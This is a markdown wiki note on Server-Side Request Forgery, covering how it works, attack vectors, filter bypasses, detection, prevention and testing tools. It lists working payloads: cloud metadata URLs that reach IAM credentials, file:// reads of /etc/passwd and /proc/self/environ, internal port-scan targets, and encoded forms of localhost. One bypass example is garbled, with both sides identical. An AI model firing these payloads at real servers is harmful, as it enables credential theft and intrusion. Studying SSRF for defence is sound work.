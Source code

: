 # Server Side Request Forgery (SSRF)

## Overview
Server-Side Request Forgery (SSRF) is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location.

## How SSRF Works
1. **Attacker identifies input field** that accepts URLs or fetches remote resources
2. **Manipulates the input** to make server request internal/external resources
3. **Server processes the request** using its own privileges and network access
4. **Attacker gains access** to internal systems or sensitive data

## Types of SSRF

### Basic SSRF
```http
POST /api/fetch-url HTTP/1.1
Content-Type: application/json

{
    "url": "http://localhost:8080/admin"
}
```

### Blind SSRF
- No direct response from the target
- Detection through DNS logs, HTTP logs, or timing attacks
- Often used for reconnaissance

## Common Attack Vectors

### Internal Network Scanning
```bash
# Scan internal network
http://127.0.0.1:22
http://127.0.0.1:3306  
http://192.168.1.1:80
```

### Cloud Metadata Access
```bash
# AWS metadata
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Azure metadata  
http://169.254.169.254/metadata/instance?api-version=2017-08-01

# Google Cloud metadata
http://169.254.169.254/computeMetadata/v1/
```

### File System Access
```bash
# Local file reading
file:///etc/passwd
file:///proc/self/environ
file:///var/log/apache2/access.log
```

## Bypass Techniques

### URL Encoding
```bash
http://127.0.0.1 → http://127.0.0.1
http://localhost → http://127.0.0.1
```

### Alternative IP Representations
```bash
# Decimal format
http://2130706433/  # 127.0.0.1 in decimal

# Hexadecimal format  
http://0x7f000001/  # 127.0.0.1 in hex

# Octal format
http://0177.0.0.1/
```

### DNS Tricks
```bash
# Subdomain pointing to localhost
http://127.0.0.1.example.com/
http://localhost.example.com/
```

### URL Redirects
```bash
# Use redirector service
http://redirector.com/redirect?url=http://127.0.0.1:8080
```

## Impact
- **Internal network reconnaissance**
- **Access to internal services** and APIs
- **Cloud metadata exposure** (AWS credentials, etc.)
- **File system access** 
- **Port scanning** of internal systems
- **Denial of Service** attacks

## Detection
- Monitor outbound network requests from web servers
- Check for requests to internal IP ranges
- Log DNS queries for suspicious domains
- Analyze application logs for unusual URL patterns

## Prevention
1. **Input Validation**: Validate URLs against allowlists
2. **Network Segmentation**: Restrict server's network access
3. **Disable Unused Protocols**: Block file://, gopher://, etc.
4. **Response Filtering**: Don't return internal responses to users
5. **Firewall Rules**: Block access to internal IP ranges
6. **Authentication**: Require authentication for sensitive endpoints

## Testing Tools
- [[Burpsuite]] - Manual SSRF testing
- [[ffuf]] - SSRF fuzzing
- [[SSRFmap]] - Automated SSRF exploitation
- [[Collaborator]] - Blind SSRF detection

## Related Topics
- [[Web application security]]
- [[Cloud security]]
- [[Network reconnaissance]]
- [[Burpsuite]]
